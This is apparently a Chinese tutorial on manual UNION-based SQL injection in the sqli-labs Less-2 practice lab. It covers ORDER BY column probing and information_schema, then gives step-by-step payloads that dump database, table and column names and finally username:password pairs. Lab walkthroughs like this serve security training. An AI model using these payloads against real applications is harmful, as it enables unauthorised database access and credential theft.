




> Environment: PHP 7.3.4 + MySQL 5.7.26
> Lab: sqli-labs Less-2
## 1.0 前置基础

### 1.1 Web应用三层架构: 



> SQL 注入恶意输入来源于表现层, 经业务逻辑传递, 在数据访问层拼接 SQL 时触发执行

---

### 1.2 order by (探测/排序)

**01 语法格式:**

```sql
order by n;
```

**02 作用:**

- 用于探测指定表的列数

---

### 1.3 union (联合查询)

**01 联合查询语法:**

```sql
SELECT column1, column2 FROM table1 
UNION 
SELECT column1, column2 FROM table2;
```

**02 特性:**

- 列数必须完全相等：前后两条SELECT查询的字段数量必须一致
- 数据类型必须兼容

---

### 1.4 系统库 information_schema

**01 概述:**

 <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">**information_schema**</span> 是MySQL 5.0 及以上版本自带的“元数据库”,正是该库的特性,才提供了后续注入的核心内容!

**02 结构图解:**



**03 字段解读:**

- schemata: 存储所有数据库的信息
  - schema_name(数据库名)
- tables
  - table_schema(所属数据库名)
  - table_name(数据表名)
- columns
  - table_schema(所属数据库名)
  - table_name(所属表名)
  - column_name(字段名)

---

## 2.0 手工注入

### 2.1 注入流程


### 2.2 注入案例

| 靶场      | 关卡   |
| --------- | ------ |
| sqli-labs | Less-2 |

**01 判断有无注入点**

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 and 1=1</span> → 页面正常返回值

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 and 1=2</span> → 无返回值

> 通过以上Payload判断存在注入点,且为**数字型**

**02 猜解列数**

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 order by 1</span> → 正常
- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 order by 2</span> → 正常
- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 order by 3</span> → 正常
- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 order by 4</span> → 报错 <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">Unknown column '4' in 'order clause'</span>

> 通过以上Payload可知,当前查询涉及的表共有 **3 列**

**03 定位回显**

```sql
?id=-1 union select 1,2,3
```


> 通过上图得知可用回显位为2,3

**04 爆数据库名**

```sql
?id=-1 union select 1,database(),null
```


**05 爆所有表**

```sql
?id=-1 union select 1,group_concat(table_name),null from information_schema.tables where
table_schema=database()
```



**06 爆字段**

```sql
?id=-1 union select 1,group_concat(column_name),null from information_schema.columns where table_schema=database() and table_name='users'
```



**07 爆数据**

```sql
?id=-1 union select 1,group_concat(username,':',password),null from security.users
```
